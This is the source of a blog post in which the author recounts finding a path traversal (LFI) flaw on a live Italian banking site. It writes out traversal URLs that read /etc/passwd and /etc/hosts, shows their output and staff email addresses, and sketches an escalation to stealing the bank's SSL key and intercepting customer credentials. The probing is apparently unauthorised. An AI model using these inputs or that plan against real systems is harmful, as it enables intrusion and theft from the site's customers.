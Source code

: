```yaml
---
published: true
title: How i found an LFI vulnerability on a major banking site
layout: post
---
```

Well yes, the title is a bit clickbait but that's what exactly happened some weeks ago when i was bored on an italian banking website, let's call it MPBbanking.<br><br>
As always with "Great updates comes great responsability" for the Sysadmins that maintain such systems and that day since was their migration day from an old platform to a new one (from mpbbanking to youweb.bankmpb) i decided to explore what new features this portal has to offer... Just a few clicks and everything seems responsive and too cool to be good so i tried out the good'old LFI to be sure that everything was safe and configured correctly...  <br>
Types on the web browser URL: youweb.bankmpb.it/../../../../etc/passwd <br>
<br>
 Created by anaconda<br>
<br>
Users And Groups Exposed<br>
<br>
root:x:0:0:root:/root:/bin/bash<br>
bin:x:1:1:bin:/bin:/sbin/nologin<br>
daemon:x:2:2:daemon:/sbin:/sbin/nologin<br>
adm:x:3:4:adm:/var/adm:/sbin/nologin<br>
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin<br>
sync:x:5:0:sync:/sbin:/bin/sync<br>
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown<br>
halt:x:7:0:halt:/sbin:/sbin/halt<br>
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin<br>
operator:x:11:0:operator:/root:/sbin/nologin<br>
..<br>
..<br>
.<br>
<br>
At the beginning my reaction was like.. Well that must be a honeypot because they should have a real-badass Sysadmin(s) running HIDS/DPI/Sensors/Alerts & Monitoring every breath of any system in the radius<br>
of an entire DC.<br><br>
But then i said well what if they aren't so badass and missed that, so i type:  youweb.bankmpb.it/../../../../etc/hosts and then .. :
<br><br><br>
##########################<br>
#####ATTENZIONE !!<br>
##<br>
##FILE GESTITO DA PUPPET<br>
##NON MODIFICARE A MANO<br>
###########################<br>
#<br>
###########<br>
 VERONA<br>
###########<br>
options timeout:1 attempts:1<br>
search servizi *.group *.group *.zserver *.nexus<br>
nameserver *.*.5.25<br>
nameserver *.*.5.26<br>
nameserver *.*.140.25<br>
#nameserver *.*.140.26<br>
<br>
<br>
127.0.0.1   localhost localhost.localdomain localhost4 localhost4.localdomain4<br>
<br>
*.*.203.12	*.*.group	*<br>
<br>
<br><br><br>
Wow... we are dealing with a DevOpser (Master of Puppets)...and that is an LFI (*hacker-voice* "we are in", and i didn't even need my great tool inspect element to hack their JS/CSS).<br>
So i kept checking if i can find the contact of their Sysadmin to report him this vulnerability that could cost them $$ if exploited well.... *checking postfix conf for contact* :<br><br>
#trap decode to catch security attacks<br>
decode:		root<br>
<br>
#Person who should get root's mail<br>
#root:		marc<br>
#root:	# fabian.adam@mpbcorp-address.it, # frank.life@mpbcorp-address.it <br>
<br><br><br>
Well if they should get root's mail then i'll contact them about this.<br>
The day after i got this "Macro" reply from "frank" :<br>
Good afternoon Sami,<br>
Thank you for the advisory.<br>
<br>
We have forwarded our email to the right departement that will analyse the context and take remedial action<br>
<br>
<br>
Best Regards,<br>
Frank<br>
<br>
Sent from my IBM Verse  <br>
<br>
<br>
Yep probably the "right departement" is his colleague next to him and he used this "Macro".<br>
<br>
<br>
Just some hours after this email they started to fix this LFI and no feedback.<br>
<br>
The next day i sent them another email (cc'ing some other colleagues email addresses) asking if they have any running "Whitehat/Bug bounty program" because if this is how they keep things secure even a script kiddie could find some interesting stuff in their systems.<br>
<br>
12 Days later  --> Still no reply --> What a great way to give feedback to fellow Sysadmin that helped out and reported to you a vulnerability in your systems.<br>
<br>
<br>
Yep, i know that MPBCORP is big and probably no one cares because i'm the only one (or someone else found out and was trying to hack you silently) that noticed this but what if they breached some serious data from your system and custumer data was at risk? <br>
<br>
<br>
What could have happened (From less to more skilled):<br>
- "Simple" Hacker found out LFI on the site --> Sells directly this on 0day/exploit forums/deepweb makes some cash $$ even if doesn't show how to exploit the system<br>
- "Expert" Hacker silently gather all the system data for months and then plan for major data-breach & compromise of their infrastructure...Sysadmin: Come on.. LFI ain't so dangerous --> Just Google LFI to RCE  678.000 results in 0,80 seconds and after<br>
you gathered all the system information i think it's just a matter of time (wait for exploits to come out, discover your self or buy a 0day) to compromise the host. <br>
-  Script kiddie tries to hack using any tool found on the net (% of compromise very low but ain't 100% sure on your security after i saw selinux on permissive)<br>
- "Pro" Hacker plans for his malicious plan of getting on his hands their SSL private key .pem file after he got RCE (Since he is "Pro" that what he does daily..that step will take him no time) <br>
   a) "Refactor" file permissions on .pem files<br>
   b) Download the .pem <br>
   c) MITM bank customers and get all their credentials <br>
   d) Massive blackhat profits<br>
<br>
<br>
Well that's it, fix at least your critical stuff and reply to contacts/abuse fellow Sysadmins.<br>
<br>
:Wq!:wq:WqESCESCESC:wq:wq:wq! CTRL+Z^C^C^C^C^C^C^C^C^C^^C^C<br>
[1]+  Stopped 		vi<br>
<br>
Sami<br>
 








